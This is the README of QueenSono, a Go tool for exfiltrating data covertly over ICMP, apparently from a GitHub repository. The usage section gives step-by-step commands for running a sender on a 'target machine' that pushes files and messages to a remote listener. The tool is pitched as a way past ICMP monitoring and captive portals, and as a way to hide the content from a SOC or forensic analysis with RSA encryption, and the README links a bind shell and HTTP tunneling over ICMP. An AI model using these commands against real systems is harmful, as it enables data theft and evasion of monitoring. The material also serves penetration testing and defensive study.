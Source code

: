 <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>

<p align="center"><a href="https://github.com/enaqx/awesome-pentest"><img src="https://awesome.re/mentioned-badge.svg"></a></p>
<h4 align="center">A Golang Package for Data Exfiltration with ICMP protocol.</h4>

<p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher) or to bypass authentication step with captive portal (used by many public Wi-Fi to authenticate users after connecting to the Wi-Fi e.g Airport Wi-Fi). Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
  <br><br>
  <strong>
    <a href="https://github.com/ariary/QueenSono#install">Install it</a>
    ·
    <a href="https://github.com/ariary/QueenSono#usage">Use it</a>
    ·
    <a href="https://github.com/ariary/QueenSono#notes">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
    ·
    <a href="https://github.com/ariary/QueenSono/tree/main/hack">🎁</a>
  </strong>
</p>

## Install
 *\> Install the binary from source*
 
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. 

`qsreceiver` is the listener on your local machine (or wherever you could receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK" 🔙
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-l 0.0.0.0</code>listen on all interfaces for ICMP packet
    </li>
    <li>
      <code>-f received_bible.txt</code> save received data in a file
    </li>
    <li><code>-p</code> show a progress bar of received data </li>

</details>


On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 0.0.0.0 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>send file</code> for sending file (<code>bible.txt</code> is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 0.0.0.0</code> the listening address for <i>echo reply</i> </li>
    <li><code>-r 10.0.0.92</code> the address of my remote machine with <code>qsreceiver</code> listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
</details>


### Example 2: Send without "ACK" 🙈
*\> In this example we want to send a message without waiting for echo reply (it could be useful in  case the target firewall filters incoming icmp packet)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-trunc.gif?raw=true)


On local machine:

    $ qsreceiver receive truncated 1 -l 0.0.0.0
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>receive truncated 1</code> does not wait indefinitely if we don't received all the packets. (<code>1</code> is the delay used with <code>qssender</code>)</li>
</details>


On target machine:

    $ qssender send "thisisatest i want to send a string w/o waiting for the echo reply" -d 1 -l 0.0.0.0 -r 10.0.0.190 -s 1 -N
<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-N</code> noreply option (don't wait for <i>echo reply</i>)
    </li>
</details>


### Example 3: Send encrypted data 🔒
*\> In this example we want to send an encrypted message. As the command line could be spied on we use asymmetric encryption (if the key leaks, it isn't an issue so)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-encryption.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 --encrypt 
    <OUTPUT PUBLIC KEY>
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>--encrypt </code> use encryption exchange. It will generate public/private key. The public one will be used by <code>qssender</code> to encrypt data, the private one is used to decrypt it with <code>receiver</code>
</details>


On target machine:
```
$ export MSG="<your message>"
$ export KEY="<public_key_from_qsreceiver_output>"
$ qssender send $MSG -d 1 -l 0.0.0.0 -r 10.0.0.190 -s 5 --key $KEY
```

<details>
  <summary>Explanation</summary>
    <li>
    <code>--key </code> provide key for data encryption. Use the one provided by the <code>qsreceiver</code> command
    </li>
</details>

#### About encryption
RSA encrytion is used to keep data exchanged confidential. It could be useful for example to avoid a SoC to see what data is exchanged (or forensic) w/ basic analysis or simply for privacy.

But it comes with a cost. The choice of asymetric encryption is motivated by the fact that the encryption key is entered on the command line (so it could be retieved easily). Hence, we encrypt data with public key. Like this if someone retrieve the encryption key it will not be possible to decrypt the message. But the public key is smaller than the private one, so it ***encrypt smaller messages***. Also, ***it is computationally expensive***.

Another point, as we want to limit data size/ping requests (to avoid detection, bug, etc), **use encryption only if needed** ***as the message output-size will (should) always equal the size of the Modulus*** (part of the key) which is big.

##### Enhancement
Currently, the whole message is encrypted and then chunked to be sent. On the other side we wait for all the packet (chunks), reconstruct our message and then decrypt it.
But it works ⇔ we have received ALL the chunks, otherwise the decryption will fail.


=> We  could encrypt each chunk accordingly with the `-s` parameter, like this we could decrypt them separately.


### Bonus

See [hack](https://github.com/ariary/QueenSono/tree/main/hack) section for fun things with `QueenSono`:
* Bind shell using ICMP
* HTTP over ICMP tunneling

### Notes
- only work on Linux  (due to the use of golang net icmp package)
- need `cap_net_raw` capabilities
- if you actually send ICMP packets on 2 different machines and you wait for echo reply, be sure to use a reachable IP by remote as a listening address (do not use localhost or equivalent)
